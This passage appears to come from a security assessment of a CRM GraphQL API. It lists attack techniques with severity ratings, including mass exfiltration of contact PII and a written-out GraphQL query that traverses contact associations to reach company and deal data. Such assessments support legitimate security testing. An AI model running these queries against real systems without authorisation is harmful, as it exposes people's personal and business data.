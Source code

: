 **Attack Implications:**
- Mass data exfiltration
- PII exposure (emails, phones, addresses)
- Pagination for complete extraction

**Severity:** Critical

---

### 4. Cross-Object Association Traversal (HIGH ⭐⭐⭐⭐)

**Objective:** Access related objects via associations

**Method:**
```graphql
query {
  contact(id: "12345") {
    id
    email
    defaultAssociations {
      toCompanies(first: 10) {
        edges {
          node {
            id
            defaultProperties {
              name { value }
              domain { value }
            }
          }
        }
      }
      toDeals(first: 10) {
        edges {
          node {
            id
            amount
            dealstage
          }
        }
      }
    }
  }
}
```

**Attack Implications:**
- Traverse relationships to access more data
- Company-to-contact mapping
- Deal amount disclosure

**Severity:** High

---
